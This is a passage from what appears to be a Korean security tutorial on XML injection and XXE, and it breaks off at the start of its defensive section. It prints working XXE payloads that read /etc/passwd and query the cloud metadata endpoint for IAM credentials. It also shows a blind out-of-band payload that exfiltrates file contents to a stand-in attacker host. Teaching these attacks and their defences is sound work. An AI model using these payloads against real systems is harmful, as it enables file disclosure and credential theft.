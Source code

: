 ### 3\. XML Injection & XXE: The Deceptive Data Format

XML은 레거시 SOAP API부터 최신 설정 파일까지 여전히 널리 사용됩니다. XPath Injection이 쿼리 조작에 집중한다면, XML Injection과 그 최종 진화형인 XXE는 XML 파서 자체를 공격하여 훨씬 더 심각한 피해를 유발합니다.

#### **XML Injection vs. XXE**

  * **XML Injection**: XML 문서의 구조를 조작하여 `isAdmin`과 같은 노드를 삽입, 애플리케이션의 비즈니스 로직을 공격.
  * **XXE (XML External Entity) Injection**: XML의 '외부 엔티티' 기능을 악용, 서버가 외부 리소스를 로드하게 만들어 서버 내부 파일을 읽거나 내부 네트워크를 스캔. **이것이 진짜 위협입니다.**

#### **Exploiting XXE**

XXE는 DTD(Document Type Definition)를 통해 외부 엔티티를 선언함으로써 발생합니다.

1.  **File Disclosure (Classic XXE)**: 서버의 로컬 파일을 유출.

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <stockCheck><productId>&xxe;</productId></stockCheck>
    ```

    위 페이로드가 전송되면, XML 파서는 `&xxe;`를 `/etc/passwd` 파일의 내용으로 치환하여 응답에 포함시킵니다.

2.  **SSRF (Server-Side Request Forgery)**: 서버가 공격자를 대신해 내부 또는 외부 네트워크에 요청을 보내게 함. 클라우드 환경에서 Metadata API (`http://169.254.169.254`)를 공격하는 데 매우 효과적입니다.

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
    <stockCheck><productId>&xxe;</productId></stockCheck>
    ```

3.  **Blind XXE (Out-of-band)**: 직접적인 응답이 없을 때, 외부 DTD를 로드하게 만들어 데이터 유출.

    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://your-server.com/?file=%file;'>">
    %eval;
    %exfiltrate;

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://your-server.com/evil.dtd"> %xxe;]>
    <stockCheck><productId>123</productId></stockCheck>
    ```

#### **방어 전략 (Defensive Strategies)**

XXE는 방어 방법이 매우 명확합니다. 보고서에 반드시 다음 내용을 포함시켜야 합니다.

1.  **외부 엔티티(External Entity) 및 DTD 비활성화**: XML 파서의 설정을 변경하여 외부 엔티티와 DTD 처리를 비활성화하는 것이 가장 확실하고 근본적인 해결책입니다. 대부분의 최신 XML 파서는 기본적으로 비활성화되어 있지만, 레거시 시스템에서는 활성화된 경우가 많습니다.

      * **Java 예시:**
